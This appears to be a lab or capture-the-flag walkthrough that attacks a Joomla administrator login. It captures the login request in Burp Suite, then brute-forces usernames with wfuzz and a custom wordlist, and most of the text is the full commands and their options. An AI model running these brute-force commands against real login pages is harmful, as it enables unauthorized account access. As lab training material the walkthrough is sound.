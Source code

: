 ### Intercept traffic using burpsuite

1. Enable Proxy => Intercept is on
2. Use Burp's embedded browser.
3. Browse to 10.129.171.59/administrator
4. Forward until login page is loaded.
5. Set username to FUZZ
6. Set password to Curling2018!
7. Click Login
8. Copy cookie and post data:

		99fb082d992a92668ce87e5540bd20fa=omf6d7fp9a02939ooeqahd5dnl
		
		username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&d36732e30d0405ece8d5e1e1e343928b=1

###  Bruteforce username using wfuzz and a custom wordlist

	wfuzz -h

#### Replaces anywhere FUZZ is in all caps with a line from wordlist

##### Not proxied through burp

	wfuzz -w cewl.out -c -d 'username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&0a3ab5ecdcbc47a15beabc106e671004=1' -b '99fb082d992a92668ce87e5540bd20fa=96vrskpirtingik35nav7gh66m' http://10.129.171.59/administrator/index.php

```bash
-w cewl.out										// wordlist
-c												// color output  
-d 												// post data  
-b												// cookie  
-p												// proxy (burp)  
http://10.129.161.239/administrator/index.php	// target

You can exclude results with one of the following:  

--hl 114										// hide results using 114 lines.  
--hc 200										// hide results using 200 response code.

After getting a correct login, you get an authentication cookie which may then cause the remaining items in the wordlist to return success responses.
```

##### Proxied through burp

Note: If you're going to proxy wfuzz through burp, make sure the ip and port match the options!

Proxy => Options => Proxy Listeners => 127.0.0.1:8080

	wfuzz -w cewl.out -c -d 'username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&0a3ab5ecdcbc47a15beabc106e671004=1' -b '99fb082d992a92668ce87e5540bd20fa=96vrskpirtingik35nav7gh66m' -p 127.0.0.1:8080 http://10.129.171.59/administrator/index.php
